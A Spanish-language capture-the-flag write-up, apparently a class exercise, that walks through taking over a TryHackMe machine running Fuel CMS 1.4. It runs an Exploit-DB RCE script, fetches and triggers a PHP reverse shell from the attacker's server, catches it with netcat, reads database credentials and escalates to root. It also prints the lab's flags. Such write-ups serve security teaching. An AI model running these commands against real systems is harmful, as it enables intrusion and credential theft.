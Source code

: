 
# **Guía Paso a Paso: Explotación de Fuel CMS para Obtener Acceso a un Sistema**

Si este documento se parece a algunos de mis compañeros es porque la hicimos todos en clase.

---
# **Buscando la 1 Flag**
## Paso 1: Identificar la vulnerabilidad en Fuel CMS

![](Imagenes/1.png)

Vemos que Fuel CMS versión 1.4 está corriendo en el servidor con la IP 10.10.127.17. La página principal es accesible, pero el navegador indica que no es segura, lo que sugiere posibles vulnerabilidades

## Paso 2: Buscar Exploit para la Vulnerabilidad en Fuel CMS

Usamos searchsploit para encontrar vulnerabilidades en Fuel CMS 1.4. Se identifica un exploit (ID 50477.py) para Ejecución Remota de Código (RCE) en la versión 1.4.1

![](Imagenes/2.png)

Ruta del exploit en Kali Linux:

```bash
/usr/share/exploitdb/exploits/
```

## Paso 3: Ejecutar el Exploit

Ejecutamos el exploit con el siguiente comando:

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://10.10.127.17/
```
![](Imagenes/3.png)

Obtenemos acceso al sistema como usuario www-data

## Paso 4: Explorar el Sistema Comprometido

Listamos archivos y directorios en el sistema comprometido:

```bash
ls
```
![](Imagenes/4.png)

Encontramos archivos clave como index.php, robots.txt, y la carpeta fuel

## Paso 5: Obtener la Primera Bandera

![](Imagenes/5.png)

Accedemos y leemos el contenido de /home/www-data/flag.txt:

```bash
cat /home/www-data/flag.txt
```

Primera bandera: `system6470e394cbf6dab6a91682cc8585059b`

# 2 Flag

## Paso 6: Descargar el Reverse Shell PHP desde GitHub

Descargamos un reverse shell PHP de Pentestmonkey en GitHub y modificamos las siguientes líneas:

En ip y port ponemos la ip de la VPN de tryhackme

```php
$ip = '10.21.128.154';  // CHANGE THIS
$port = 4444;  // CHANGE THIS
```
![](Imagenes/17.png)

URL del repositorio: https://github.com/pentestmonkey/php-reverse-shell

## Paso 7: Servir el Reverse Shell PHP

Iniciamos un servidor HTTP en nuestra máquina local:

```bash
python3 -m http.server 8000
```
![](Imagenes/7.png)

## Paso 8: Descargar el Reverse Shell en el Sistema Comprometido

En el servidor comprometido, descargamos el archivo:

aqui lo que he hecho es que en la terminal le digo que descargue el fichero de la reverse shell a la pagina del cms.


```bash
wget http://10.21.128.154:8000/php-reverse-shell.php
```
![](Imagenes/8.png)


## Paso 9: Ejecutar el Reverse Shell PHP en el Sistema Comprometido

Ejecutamos el reverse shell:

Perfecto ya tenenmos el fichero que nos va dar acceso total a la terminal de la pagina. 

Con este comando ejecutamos la shell, Ahora abrimos un puerto de escucha en el  4444 y veremos que podremos acceder a la terminal.

```bash
php php-reverse-shell.php
```
![](Imagenes/9.png)

## Paso 10: Recibir la Conexión Inversa

En nuestra máquina local, escuchamos con Netcat:

```bash
nc -lvp 4444
```
![](Imagenes/10.png)

## Paso 11: Mejorar la Shell con Python

Como esta shell es poco intuitiva ponemos este comando para que sea mas agradable al manejar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![](Imagenes/11.png)

## Paso 12: Buscar Archivos Relacionados con la Base de Datos

Encontramos el archivo de configuración de la base de datos:

```bash
find / -name database.php
```

Ruta: `/var/www/html/fuel/application/config/database.php`

![](Imagenes/12.png)

## Paso 13: Leer el Contenido del Archivo database.php

Obtenemos las credenciales de la base de datos:

```bash
cat /var/www/html/fuel/application/config/database.php
```
Credenciales: Usuario: root, Contraseña: mememe

![](Imagenes/13.png)

![](Imagenes/14.png)

## Paso 14: Escalar Privilegios a Root

Escalamos privilegios usando:

```bash
su root
```
![](Imagenes/15.png)

Ingresamos la contraseña: mememe

## Paso 15: Leer la Bandera Final

Accedemos a la bandera final:

```bash
cat /root/root.txt
```

![](Imagenes/16.png)

Bandera final: `b9bbc33e11b80be759c4e844862482d`

---


# **Finalmente tenemos las dos flags de maquina de THM**